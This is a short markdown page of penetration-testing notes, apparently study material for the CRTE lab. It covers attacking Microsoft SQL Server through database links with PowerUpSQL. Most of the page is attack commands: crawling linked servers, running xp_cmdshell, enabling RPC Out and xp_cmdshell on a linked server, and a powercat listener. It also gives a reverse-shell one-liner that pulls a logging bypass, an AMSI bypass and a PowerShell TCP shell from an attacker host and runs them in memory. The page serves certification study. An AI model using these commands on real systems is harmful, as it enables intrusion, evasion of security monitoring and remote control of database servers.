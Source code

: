# Methodology
>1. Enumerate links to remote servers.
>2. Abuse links to get foothold on remote servers.

---
# Powershell
>**ℹ️ Info:**
>
> Remember to follow the [PowerShell scripts methodology](Notes/Certifications/CRTE/00%20-%20Miscellaneous/01-%20Methodology.md#PowerShell%20Scripts).

## PowerUpSQL
https://github.com/NetSPI/PowerUpSQL/blob/master/PowerUpSQL.psd1

**Enumerate MSSQL links:**
```powershell
Get-SQLServerLink -Instance us-mssql.us.techcorp.local -Verbose
```

**Crawl MSSQL links:**
```powershell
Get-SQLServerLinkCrawl -Instance us-mssql -Verbose
```

**Execute command where xp_cmdshell enabled:**
```powershell
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''whoami'''
```

**Reverse shell on specific MSSQL instance with disabled logging, AMSI bypass and powercat.ps1:**
https://github.com/besimorhino/powercat/blob/master/powercat.ps1
```powershell
# Set up listener
powercat -l -v -p 443 -t 1000

# Reverse shell
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.1.131/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.1.131/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.1.131/Invoke-PowerShellTcpEx.ps1)"''' -QueryTarget db-sqlsrv
```

**Enable RPC Out and xp_cmdshell:**
```powershell
Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc', @optvalue='TRUE'"
Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc out', @optvalue='TRUE'"
Invoke-SqlCmd -Query "EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT ""db-sqlsrv"""
```